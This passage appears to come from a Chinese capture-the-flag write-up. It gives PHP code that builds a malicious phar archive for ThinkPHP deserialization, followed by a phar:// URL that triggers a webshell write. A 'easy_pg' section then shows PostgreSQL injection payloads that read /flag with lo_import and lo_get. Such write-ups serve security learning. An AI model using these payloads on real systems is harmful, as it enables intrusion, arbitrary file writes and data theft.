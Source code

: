 ```php
{
    protected $tag;
    protected $options;
    public function __construct()
    {
        $this->tag = false;
        $this->options = [
            'expire'        => 3600,
            'cache_subdir'  => false,
            'prefix'        => '',
            'data_compress' => false,
            'path'          => 'php://filter/write=convert.base64-decode/resource=/var/www/html/public/',
        ];
    }
}

@unlink("phar.phar");
$phar = new \Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF89A <?php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata(new \think\Process()); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```

上传后，访问触发phar

```
/admin/index/listpic?dir=phar:///var/www/html/public/static/img/xxxx.jpg
```

然后就直接getshell，就行了

## easy_pg

### 考点：

`postgresql`注入

##  wp



![image-20220525121925509](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220525121925509.png)

没有回显，无法使用`PG_READ_FILE`报错回显读文件的函数

考察使用`postgre largeobject`特性进行读文件

如果使用常规的`|| lo_import`会因为报错而无论如何都无法将文件存进`largeobct`

这里使用 `or xxx is null trick`绕过

将读取到的flag文件内容存入大对象中，单引号被用`$$`替换

```
email="stud3nt@qq.com' or lo_import($$/flag$$,11110) is null --";
```

最后使用`lo_get`将结果读出

```
email="x' union select encode(lo_get(11110),$$escape$$),NULL --+#";
```

